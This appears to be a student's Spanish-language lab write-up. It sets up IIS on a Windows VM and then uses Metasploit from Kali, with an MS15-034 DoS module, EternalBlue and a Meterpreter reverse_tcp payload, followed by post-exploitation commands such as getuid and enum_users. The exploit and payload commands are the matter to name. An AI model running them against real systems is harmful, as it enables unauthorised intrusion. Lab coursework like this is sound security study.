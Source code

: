 ```yaml
---
title: Buffer Overflow
date: 2024-11-04 00:00:00 -05:00
categories: [buffer overflow, jmp, stack pointer]
tags: [rhosts, sam, system]  # TAG names should always be lowercase
---
```

# Tarea.

En clase, vimos como obtener las direcciones de retorno de la instrucción JMP ESP, la cual es la instrucción que le indica al runtime que debe retornar a la memoria de stack pointer.

#### Desarrollo

Se procede a activar el firewall del servidor Windows

![firewall-enable](/assets/images/firewall_enable.JPG)

![puerto80](/assets/images/firewall_puerto80.JPG)

Se habilita el Web server mediante el server manager

![server_manager](/assets/images/4server_manager.JPG)

![5web_server](/assets/images/5web_server.JPG)

![6web_server](/assets/images/6web_server.JPG)

Instalacion del servicio

![7web_server](/assets/images/7web_server.JPG)

![8web_sever](/assets/images/8web_server.JPG)

Validacion via netstat para comprobar que el puerto 80 se encuentra visible

![9netstat80](/assets/images/9netstat80.JPG)

Verificacion de funcionamiento de la pagina local por las siguientes URL: localhost o 127.0.0.1

![10localhost](/assets/images/10localhost.JPG)

````bash
tcp.port == 80  && ip.dst==10.0.2.4
````

![11wireshark](/assets/images/11wireshark.JPG)

### Kali - Metasploit

Hacemos la consulta de los sploits disponibles para HTTP

````bash
use auxiliary/dos/http/ms15_034_ulonglongadd
````
Como segundo objetivo, el alumno debe de explicar en su procedimiento ¿qué es una conexión tcp reversa? Utilizar un gráfico relacionado a su setup de laboratorio (VM Kali vs VM Windows, VM Kali vs Host Windows) y desarrollar la explicación correspondiente.

### Conexion tcp reversa
Una conexión TCP reversa es una técnica utilizada en penetration testing y ciberseguridad para establecer una conexión de red desde una máquina objetivo (victima) hacia una máquina atacante (controladora). En este contexto, la máquina atacante escucha en un puerto específico por una conexión entrante, y la máquina objetivo inicia la conexión hacia ese puerto.

````bash
use exploit/windows/smb/ms17_010_eternalblue
````
![13ms17_010_eternalblue](/assets/images/13ms17_010_eternalblue.JPG)


````bash
set payload windows/meterpreter/reverse_tcp
````
![14reverse_tcp](/assets/images/14reverse_tcp.JPG)

Se configura la dirección IP y el puerto de la máquina atacante:

![15set_lhost](/assets/images/15set_lhost.JPG)

Una vez que el exploit se ejecuta con éxito, la máquina objetivo intentará conectarse a la máquina atacante en el puerto especificado (4444 en este caso). La máquina atacante escuchará por esta conexión y, si todo está configurado correctamente, se abrirá una sesión de Meterpreter.

Una vez que obtiene la conexión tcp reversa (suficiente con utilizar una de las direcciones de retorno que permite una exitosa ejecución del exploit), investigar los permisos de la shell (es decir, del usuario que ejecuta aquella shell).

Se puede obtener Información del Sistema:
El comando sysinfo para obtener una visión general del sistema:

![16exploit](/assets/images/16exploit.JPG)

````bash
meterpreter > sysinfo
````

Usamos el comando getuid para obtener el ID del usuario actual:

````bash
meterpreter > getuid
````

Usamos el comando enum_users para listar todos los usuarios del sistema:
````bash
meterpreter > enum_users
````